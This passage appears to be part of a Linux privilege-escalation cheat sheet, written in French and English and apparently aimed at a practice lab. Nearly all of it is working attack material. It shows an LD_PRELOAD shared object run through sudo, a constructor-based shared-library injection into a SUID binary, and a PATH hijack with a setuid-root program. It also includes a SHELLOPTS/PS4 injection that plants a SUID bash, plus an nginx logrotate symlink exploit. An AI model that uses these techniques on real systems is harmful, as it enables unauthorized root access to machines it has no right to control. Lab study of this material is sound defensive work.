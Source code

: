 ```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### SUID/SGID SHARED OBJECTS INJECTION
( On cherche les SUID qu'il manque pour les recreer )
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
From the output, notice that a .so file is missing from a writable directory.
***.so is compiled .c***
##### Output example : 

open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

Donc, on va recreer le SUID car on a remarqué qu'on pouvait écrire dans /home/user/  
```bash
nano /home/user/.config/libcalc.c  
```
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
on compile et on execute: 
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### SUID SYMLINK
```bash
dpkg -l | grep nginx
```
From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3  
For this exploit, it is required that the user be www-data  
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log  
At this stage, the system waits for logrotate to execute (THIS CAN BE LONG)  

### SUID/SGID EVIRONNEMENT VARIABLE
```bash
sudo -l / output suid-env
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
```bash
sudo -l / output suid-env2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
